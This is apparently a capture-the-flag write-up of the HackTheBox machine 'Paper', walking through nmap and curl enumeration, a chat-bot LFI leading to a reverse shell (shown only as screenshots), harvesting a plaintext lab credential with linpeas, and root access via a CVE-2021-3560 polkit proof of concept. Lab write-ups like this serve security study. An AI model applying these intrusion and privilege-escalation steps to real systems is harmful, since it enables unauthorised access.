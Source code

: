 ```yaml
---
title: HTB | Paper
author: Zeropio
date: 2022-05-21
categories: [Pentesting, HackTheBox]
tags: [htb, linux, easy, machines]
permalink: /pentesting/htb/machines/paper
image:
  path: /assets/img/hackthebox/card/Paper.png
  width: 800
  height: 500
---
```


# Enumeration
## nmap
```console
❯ nmap -sVC 10.10.11.143 -oN nmap
	Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-21 18:04 CEST
	Nmap scan report for 10.10.11.143
	Host is up (0.28s latency).
	Not shown: 997 closed tcp ports (conn-refused)
	PORT    STATE SERVICE  VERSION
	22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
	| ssh-hostkey: 
	|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
	|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
	|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
	80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
	|_http-title: HTTP Server Test Page powered by CentOS
	|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
	| http-methods: 
	|_  Potentially risky methods: TRACE
	|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
	443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
	|_http-title: HTTP Server Test Page powered by CentOS
	| http-methods: 
	|_  Potentially risky methods: TRACE
	|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
	| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
	| Subject Alternative Name: DNS:localhost.localdomain
	| Not valid before: 2021-07-03T08:52:34
	|_Not valid after:  2022-07-08T10:32:34
	|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
	|_ssl-date: TLS randomness does not represent time
	| tls-alpn: 
	|_  http/1.1
```

## Web
We can see a default webpage for nginx.
With curl we can get the header and see that there is a page called **office.paper**.
```console
❯ curl -i http://10.10.11.143/
	HTTP/1.1 403 Forbidden
	Date: Sat, 21 May 2022 16:07:56 GMT
	Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
	X-Backend-Server: office.paper
	Last-Modified: Sun, 27 Jun 2021 23:47:13 GMT
	ETag: "30c0b-5c5c7fdeec240"
	Accept-Ranges: bytes
	Content-Length: 199691
	Content-Type: text/html; charset=UTF-8
```

We need to add this to `/etc/hosts`{: .filepath}:
```
10.10.11.143    office.paper
```
Now we can see the page.
With Wappalyzer we can see it is a Wordpress, so we can try a **wpscan**, we get that there is a vulnerable Wordpress version.

If we go to **http://office.paper/?static=1** we can see a subdomain, **chat**.
We add it to the `/etc/hosts`{: .filepath}. We get a login, but with the url **http://chat.office.paper/register/8qozr226AhkCHZdyY** we can register.

&nbsp;
---


# Explotation
Inside the chat we can see a bot in the chat, if we talk to him in dm we can perform an LFI to see some files (as /etc/passwd).
We can see there are a folder ../hubot, where there are some scripts. The run.js script allow us to run any script.

![Image](/assets/img/hackthebox/labs/paper/21-19-19-51.png)

We can start a reverse shell with:

![Image](/assets/img/hackthebox/labs/paper/21-22-39-24.png)

&nbsp;
---

# Privilage Escalation
We see that in our home we have the `linpeas.sh`{: .filepath} file, so we can executed it:
```console
chmod +x linpeas.sh
./linpeas.sh
```

We found some credentials:
```
ROCKETCHAT_PASSWORD=Queenofblad3s!23
LOGNAME=dwight
```
Now we can connect with ssh.

We will use the [CVE-2021-3560](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation)
```console
[dwight@paper ~]# ./poc.sh -u=zeropio -p=1234
[dwight@paper ~]# su - zeropio
	Password: 
[zeropio@paper ~]# sudo bash
	[sudo] password for zeropio:
[root@paper ~]#
```
